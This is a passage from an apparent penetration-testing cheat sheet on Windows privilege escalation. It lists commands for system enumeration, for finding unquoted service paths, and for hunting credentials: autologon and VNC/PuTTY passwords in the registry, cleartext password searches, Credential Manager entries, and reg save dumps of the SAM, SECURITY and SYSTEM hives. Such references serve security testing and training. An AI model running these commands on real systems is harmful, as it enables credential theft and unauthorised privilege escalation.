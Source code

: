 #### System Enumeration (Manual)
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" #system information
wmic qfe get Caption,Description,HotFixID,InstalledOn # quick fix engineering
wmic logicaldisk get caption,description,providername # drive enumeration
```
- Unquoted Service Paths
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v 

sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
type path.txt | findstr /v svchost.exe

sc query 
sc qc <servicename>    # note this is qc and not query
```
- Windows Auto Login Password
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
# AutoAdminLogon = “1” Enabled  (Zero would mean turn off)
# DefaultUserName = “SomeUser” (Your logon username)
# DefaultPassword = “Pa$$w0rd” (Remember this or change)
# DefaultDomainName = “domain.lan”  (Only needed if this computer has joined a domain)
```
- Searching for Cleartext Passwords
```
# Search for Cleartext passwords in specific fiel types
cd C:\ & findstr /si "password" *.xml *.ini *.txt *.config
cd C:\ & findstr /spin "password" *.*
# p is to ignore non-printable and n is to show line number"

# Search for cleartext passwords in registry keys
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\ORL\WinVNC4\Password"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# Credential Manager
cmdkey /list
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\

# SAM and SYSTEM files (use samdump2 to analyze what you can save)
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```
- File Permissions 
```
icacls <directory>
```
#### Network Enumeration (Manual)